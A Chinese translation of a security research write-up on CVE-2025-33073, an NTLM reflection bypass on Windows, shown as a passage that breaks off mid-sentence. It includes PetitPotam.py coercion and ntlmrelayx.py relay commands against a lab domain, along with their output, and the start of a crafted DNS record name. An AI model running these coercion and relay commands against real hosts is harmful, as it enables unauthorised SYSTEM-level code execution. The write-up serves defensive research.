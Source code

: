 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxODM5ODQzNQ==&mid=2247488885&idx=1&sn=c956b0f537a856ca365551087420ceee

#  NTLM 反射已死，NTLM 反射长存！——深入分析 CVE-2025-33073  
Wilfried Bécard  securitainment   2025-06-20 05:37  
  
> 【翻译】NTLM reflection is dead, long live NTLM reflection! – An in-depth   
  
> 免责声明：本博客文章仅用于教育和研究目的。提供的所有技术和代码示例旨在帮助防御者理解攻击手法并提高安全态势。请勿使用此信息访问或干扰您不拥有或没有明确测试权限的系统。未经授权的使用可能违反法律和道德准则。作者对因应用所讨论概念而导致的任何误用或损害不承担任何责任。  
  
  
近二十年来，Windows 系统一直饱受 NTLM 反射漏洞的困扰。在本文中，我们将介绍 CVE-2025-33073，这是一个逻辑漏洞，它绕过了 NTLM 反射缓解措施，允许经过身份验证的远程攻击者在任何未强制执行 SMB 签名（SMB signing）的机器上以 SYSTEM 权限执行任意命令。本文将详细阐述该漏洞的发现过程、根本原因的完整分析以及微软的修复方案。  
## 引言  
  
NTLM 反射是 NTLM 认证中继（NTLM authentication relay）的一种特殊情况，其中原始认证被中继回发起认证的机器。这类漏洞最初通过 MS08-68 公之于众，微软在其中阻止了 SMB 到 SMB 的 NTLM 反射。多年来，其他利用途径（exploitation vectors）也被发现并修复，例如 HTTP 到 SMB 的反射（在 MS09-13 中修复）或 DCOM 到 DCOM 的反射（在 MS15-076 中修复）。  
  
如今，人们普遍认为 NTLM 反射攻击途径已被修复，但不时有研究表明，绕过缓解措施只是深入研究这些缓解措施实际工作原理的问题。  
  
最近，一条推文展示了 Kerberos 反射并未受到限制，这激发了我们的兴趣，并促使我们深入研究认证反射。  
## 漏洞发现  
  
作为测试的基线，让我们看看当尝试将 SMB 认证中继回同一台机器时会发生什么。我们的测试机器（SRV1）是一台最新的 Windows Server 2022，已加入域，且未强制执行 SMB 签名：  

```
$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL 192.168.56.3 SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!


# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[-] Authenticating against smb://SRV1.ASGARD.LOCAL as ASGARD/SRV1$ FAILED
```

  
PetitPotam 强制 SYSTEM 服务 (
```
lsass.exe
```

  
) 向受控机器进行身份验证，因此会收到机器账户的身份验证。由于身份验证源自同一台机器，中继失败。  
  
为了寻找异常行为，我们尝试调整了不同的参数，例如监听主机或客户端 IP 地址。我们注册了 
```
srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```

  